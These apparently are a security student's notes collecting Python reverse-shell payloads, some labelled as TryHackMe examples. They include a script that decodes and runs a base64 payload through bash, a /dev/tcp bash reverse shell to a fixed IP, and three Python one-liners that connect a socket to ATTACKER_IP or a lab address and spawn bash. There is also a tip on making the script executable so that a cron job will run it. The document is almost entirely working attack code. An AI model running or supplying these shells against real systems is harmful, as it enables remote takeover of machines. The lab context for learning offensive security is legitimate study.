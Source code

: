 

```python
#!/usr/bin/env python3

import os
os.system('echo base64EncodedRevshellsScriptHere|base64 -d|bash')
```

```python
#!/usr/bin/env python3

import os

os.system("touch /tmp/testfile")
os.system("echo 'bash -i >& /dev/tcp/10.18.21.236/443 0>&1'|bash")
```

<font color="red">Don't forget to make sure your script file is executable `chmod +x [script]`
cron won't run without both # and +x</font>
Also testrun shell as current user before waiting for scheduled job to run

Instead of hardcoding the path to the Python interpreter, `#!/usr/bin/python3`, use `#!/usr/bin/env python3` as it makes the script more flexible and able to adapt to different environments where the interpreter might be located in a different directory.



### THM:

**Python Reverse Shell by Exporting Environment Variables**
```sh
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```
This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

**Python Reverse Shell Using the subprocess Module**
```sh
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```
This reverse shell uses the `subprocess` module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.  

**Short Python Reverse Shell**
```sh
target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
This reverse shell creates a socket (`s`), connects to the attacker, and redirects standard input, output, and error to the socket using `os.dup2()`.